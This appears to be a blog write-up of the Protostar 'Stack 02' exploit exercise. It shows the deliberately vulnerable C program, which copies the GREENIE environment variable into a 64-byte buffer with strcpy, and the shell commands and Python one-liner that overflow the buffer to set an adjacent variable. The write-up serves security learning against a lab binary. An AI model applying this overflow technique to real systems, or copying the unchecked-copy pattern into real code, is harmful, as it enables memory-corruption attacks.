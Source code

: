 ```yaml
---
layout:     post
title:      "Protostar - Stack 02"
description: "By making sure we understand basics behind previous challenges, we're going to use the same technique with envriromental variables."
date:       2018-05-05 0:00:00
author:     "W3ndige"
permalink: /:title/
category: "Exploit Exercises"
---
```


Let's take a look at the code of this challenge.

{% highlight c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
{% endhighlight %}

As we can see, there's the `buffer`, `modified` variable and `variable` that is loaded from the environment variable `GREENIE` and copied into the buffer. In addition we have different if statement to satisfy - `if(modified == 0x0d0a0d0a)`.

{% highlight bash %}
$ ./stack2
stack2: please set the GREENIE environment variable
{% endhighlight %}

But let's remember the previous challenges and keep in mind that 66 bytes will overwrite 2 bytes from the `modified` variable. We can now simply export the `GREENIE` environment variable and assign to it 66 `A` letters.  

What will happen?

{% highlight bash %}
$ export GREENIE=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
$ ./stack2
Try again, you got 0x00004141
{% endhighlight %}

As you can see that's the same kind of vulnerability as in the previous challenges. Now we can finish it with last commands.

{% highlight bash %}
$ GREENIE=`python -c 'print "A"*64+"\x0a\x0d\x0a\x0d"'`
$ export GREENIE
$ ./stack2
you have correctly modified the variable
{% endhighlight %}
